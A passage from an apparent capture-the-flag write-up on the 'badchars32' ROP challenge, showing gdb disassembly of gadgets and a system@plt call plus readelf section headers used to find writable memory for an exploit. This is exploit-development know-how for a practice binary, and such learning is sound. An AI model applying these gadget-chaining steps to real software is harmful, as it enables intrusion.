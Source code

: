 ```
   0x08048895 <+5>:     ret
   0x08048896 <+6>:     pop    ebx
   0x08048897 <+7>:     pop    ecx
   0x08048898 <+8>:     ret
   0x08048899 <+9>:     pop    esi
   0x0804889a <+10>:    pop    edi
   0x0804889b <+11>:    ret
   0x0804889c <+12>:    xchg   ax,ax
   0x0804889e <+14>:    xchg   ax,ax
End of assembler dump.
gdb-peda$
```
Hmm, `xor BYTE PTR [ebx],cl` looks interesting.
Let's check `usefulFunction` now.
```
gdb-peda$ disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x080487a9 <+0>:     push   ebp
   0x080487aa <+1>:     mov    ebp,esp
   0x080487ac <+3>:     sub    esp,0x8
   0x080487af <+6>:     sub    esp,0xc
   0x080487b2 <+9>:     push   0x8048973
   0x080487b7 <+14>:    call   0x80484e0 <system@plt>
   0x080487bc <+19>:    add    esp,0x10
   0x080487bf <+22>:    nop
   0x080487c0 <+23>:    leave  
   0x080487c1 <+24>:    ret    
End of assembler dump.
gdb-peda$
```
So we need to call `system` at `0x80484e0`.
Now let's find where I could write into memory.
```
$ readelf -S badchars32
There are 31 section headers, starting at offset 0x1a3c:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000030 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481dc 0001dc 000110 10   A  6   1  4
  [ 6] .dynstr           STRTAB          080482ec 0002ec 000099 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          08048386 000386 000022 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         080483a8 0003a8 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             080483c8 0003c8 000020 08   A  5   0  4
  [10] .rel.plt          REL             080483e8 0003e8 000058 08  AI  5  24  4
  [11] .init             PROGBITS        08048440 000440 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        08048470 000470 0000c0 04  AX  0   0 16
  [13] .plt.got          PROGBITS        08048530 000530 000008 00  AX  0   0  8
  [14] .text             PROGBITS        08048540 000540 0003c2 00  AX  0   0 16
  [15] .fini             PROGBITS        08048904 000904 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        08048918 000918 000063 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        0804897c 00097c 00004c 00   A  0   0  4
  [18] .eh_frame         PROGBITS        080489c8 0009c8 00014c 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
  [21] .jcr              PROGBITS        08049f10 000f10 000004 00  WA  0   0  4
  [22] .dynamic          DYNAMIC         08049f14 000f14 0000e8 08  WA  6   0  4
  [23] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [24] .got.plt          PROGBITS        0804a000 001000 000038 04  WA  0   0  4
  [25] .data             PROGBITS        0804a038 001038 000008 00  WA  0   0  4
```